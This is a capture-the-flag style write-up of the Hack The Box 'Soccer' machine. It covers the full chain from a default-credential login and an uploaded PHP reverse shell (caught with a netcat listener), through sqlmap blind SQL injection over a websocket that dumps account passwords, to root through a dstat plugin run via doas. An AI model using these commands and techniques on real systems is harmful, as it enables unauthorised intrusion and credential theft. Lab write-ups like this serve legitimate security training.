

# HTB - Soccer

#### Ip: 10.10.11.194
#### Name: Soccer
#### Rating: Easy

----------------------------------------------------------------------




### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.194 -sC -sV 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-03 08:22 CST
Nmap scan report for 10.10.11.194
Host is up (0.073s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Sat, 03 Feb 2024 14:23:12 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Sat, 03 Feb 2024 14:23:12 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

Using Feroxbuster we can do directory scanning and find a `/tiny` directory leading us to a Tiny File Manager service.

soccer_ferox.png

Looking for default credentials we see that admin:admin@123 are default administrator credentials and we can use them to login to the site as admin:

soccer_logged_in.png

Looking around the target I find an upload feature, but am unable to write to the web root which is owned by root. I found I can create a new folder called test via the "New Item" feature, and in that folder I have write access permission to load  php-reverse-shell.php code. 

soccer_dirs.png

After confirming the php shell is loaded:

soccer_php.png

I can set up a netcat listener and click "Open" to trigger my reverse shell to catch a shell back as user www-data:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.60] from (UNKNOWN) [10.10.11.194] 41702
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 15:58:56 up 5 min,  0 users,  load average: 0.16, 0.40, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami 
www-data
$ hostname
soccer
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@soccer:/$ 
```

I find trying to access the user.txt flag in user player's home directory I don't have permissions and will need to escalate privileges:

```
www-data@soccer:/home/player$ cat user.txt
cat: user.txt: Permission denied
```

Loading LinPEAS to the target we see there is a vhost that wasn't found during enumeration:

soccer_vhost.png

Adding this to out /etc/hosts file, we can create an account and login.

soccer_tix.png

We can see in the page source here some JS code that is reaching out to a websocket on port 9091:

soccer_js.png

Full transparency: I got stuck here for HOURS, and the following SQLMap commands were shamelessly lifted from 0xdf's writeup of the box found at: https://0xdf.gitlab.io/2023/06/10/htb-soccer.html. Thanks 0xdf!

Apparently this is vulnerable to a blind SQL injection, and we can use SQLMap to interact with the web socket and extract data from the DB.

To enumerate the database We can run:
```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
```

Which gives us the databases:
```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Because soccer_db is the only non default DB, lets start there, by now enumerating tables:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```

Appears to be only one table:
```
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

Finally, we can dump the contents of the accounts table:
```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```

Nice, SQLMap dropped user player's password for us:

soccer_pw.png

We can use this to SSH into the machine:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ ssh player@10.10.11.194      
The authenticity of host '10.10.11.194 (10.10.11.194)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.194' (ED25519) to the list of known hosts.
player@10.10.11.194's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
```

And grab the user.txt flag:

soccer_user.png

### Privilege Escalation

Loading LinPEAS onto the target we see that `doas` as the SUID bit set.

soccer_doas.png

Also of interest we find that /usr/local/share/dstat is writable:

soccer_lin2.png

If we look at the doas.conf file we see we are permitted to run dstat with doas, as you would sudo.

```
player@soccer:/tmp$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

Looking at GTFObins.com, we find the following explanation:
```
dstat allows you to run arbitrary python scripts loaded as “external plugins” if they are located in one of the directories stated in the dstat man page under “FILES”:
```

Lets try it:

```
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_plugin.py

/usr/local/bin/doas /usr/bin/dstat --plugin
```
Nice, that worked. We can now grab the root.txt flag:

soccer_root.png

